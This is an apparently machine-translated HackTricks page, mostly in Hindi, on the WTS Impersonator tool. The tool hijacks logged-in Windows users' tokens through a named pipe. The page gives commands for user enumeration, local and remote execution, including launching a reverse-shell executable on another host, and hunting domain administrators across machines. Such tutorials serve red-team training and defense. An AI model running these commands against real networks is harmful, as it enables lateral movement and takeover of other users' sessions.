 {% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

**WTS Impersonator** उपकरण **"\\pipe\LSM_API_service"** RPC नामित पाइप का उपयोग करके चुपचाप लॉगिन किए गए उपयोगकर्ताओं की गणना करता है और उनके टोकन को हाईजैक करता है, पारंपरिक टोकन अनुकरण तकनीकों को बायपास करता है। यह दृष्टिकोण नेटवर्क के भीतर निर्बाध पार्श्व आंदोलनों को सुविधाजनक बनाता है। इस तकनीक के पीछे की नवाचार **Omri Baso** को श्रेय दिया जाता है, जिनका काम [GitHub](https://github.com/OmriBaso/WTSImpersonator) पर उपलब्ध है।

### Core Functionality
उपकरण एक API कॉल की श्रृंखला के माध्यम से कार्य करता है:
```powershell
WTSEnumerateSessionsA → WTSQuerySessionInformationA → WTSQueryUserToken → CreateProcessAsUserW
```
### Key Modules and Usage
- **Enumerating Users**: स्थानीय और दूरस्थ उपयोगकर्ता सूचीकरण इस उपकरण के साथ संभव है, किसी भी परिदृश्य के लिए आदेशों का उपयोग करते हुए:
- Locally:
```powershell
.\WTSImpersonator.exe -m enum
```
- Remotely, by specifying an IP address or hostname:
```powershell
.\WTSImpersonator.exe -m enum -s 192.168.40.131
```

- **Executing Commands**: `exec` और `exec-remote` मॉड्यूल को कार्य करने के लिए एक **Service** संदर्भ की आवश्यकता होती है। स्थानीय निष्पादन के लिए केवल WTSImpersonator निष्पादन योग्य और एक आदेश की आवश्यकता होती है:
- Example for local command execution:
```powershell
.\WTSImpersonator.exe -m exec -s 3 -c C:\Windows\System32\cmd.exe
```
- PsExec64.exe का उपयोग सेवा संदर्भ प्राप्त करने के लिए किया जा सकता है:
```powershell
.\PsExec64.exe -accepteula -s cmd.exe
```

- **Remote Command Execution**: इसमें PsExec.exe के समान दूरस्थ रूप से एक सेवा बनाना और स्थापित करना शामिल है, जो उचित अनुमतियों के साथ निष्पादन की अनुमति देता है।
- Example of remote execution:
```powershell
.\WTSImpersonator.exe -m exec-remote -s 192.168.40.129 -c .\SimpleReverseShellExample.exe -sp .\WTSService.exe -id 2
```

- **User Hunting Module**: कई मशीनों में विशिष्ट उपयोगकर्ताओं को लक्षित करता है, उनके क्रेडेंशियल के तहत कोड निष्पादित करता है। यह विशेष रूप से कई सिस्टम पर स्थानीय प्रशासनिक अधिकारों के साथ डोमेन प्रशासकों को लक्षित करने के लिए उपयोगी है।
- Usage example:
```powershell
.\WTSImpersonator.exe -m user-hunter -uh DOMAIN/USER -ipl .\IPsList.txt -c .\ExeToExecute.exe -sp .\WTServiceBinary.exe
```


{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

